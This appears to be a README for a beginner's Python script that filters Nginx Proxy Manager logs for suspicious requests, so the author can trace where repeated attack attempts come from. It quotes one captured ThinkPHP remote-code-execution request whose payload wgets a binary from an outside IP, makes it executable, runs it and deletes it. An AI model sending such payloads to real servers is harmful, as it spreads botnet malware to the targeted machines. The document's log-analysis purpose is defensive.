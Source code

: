 The idea behind this script comes from finding out a bunch of really strange requests to my Nginx Proxy Manager container that is open to the internet.
The requests in case are almost always identical to this:
`[13/Jan/2021:15:07:48 +0000] 400 - GET http localhost-nginx-proxy-manager "/index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.174/bins/MwEIrNsdFa.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp'" [Client 220.127.239.7] [Length 154] [Gzip -] "Uirusu/2.0" "-"`

The client IP is always different from what I can tell so far and the IP that it tries to wget is almost always different, trying to run that wget command will give you an "Not Authorized" response. **This script is not a solution for this issue** it just goes trough your NPM logs and finds out all the requests similar to this and puts them in a different file, I started out with a log file with 370 requests and, after running this script I got 108 requests that match the one I posted above, keep in mind that these 370 requests come from a timespan of less than 36h. And yes I am aware that NPM does not use PHP so this attempt to inject an PHP script most likely never runs ence the 400 (bad request) response from NPM, *however the authors of this could move from trying to inject PHP payloads to injecting something else that could work!*

This script reads trough your Nginx Proxy Manager logs, specially the **default.log** file stored inside your npm directory, right now you need an copy of the logs directory inside the root of this script's folder with the name of *logs*, you also need to create a directory called **parsed** so that the script can write a file with all of the requests that it looks for. It also asks for your Public IP in order to filter out your own requests to your npm server.

After running the script it will tell you how many results it got and it will also create a file that stores all of the requests it finds inside the **parsed** directory inside a file called **parsed-default.log**

Right now this scripts only does this, however I'm going to keep developing this script until it is able to extract a list of IPs from the *parsed-default.log*, besides doing this, the script will also be able to tell if the same IP tries to make this request more than once, the point of this is to see if these requests come from all over the world or just from countries known to have botnets like this running, like Iran, China and so on. So far I can say that this is not the case, because I've already found IPs from Italy and the UK that seem residential IPs but further investigation is required to reach an conclusion.

For anyone thinking that bulk blocking the IP ranges that this script find keep in mind that these IPs could also be comming from countries in the world that usually are known for not having these kinds of requests and you could possibly block people that you actually want to access your services without even knowing.

And finally a disclaimer, I am by no means a Python expert, just started to learn it less than a month ago, so it's probably going to take a while before I'm able to filter out the requests into a list of IP's. If you are willing to help me improve this script onto something that could help the NPM developers develop an fix for this feel free to contact me.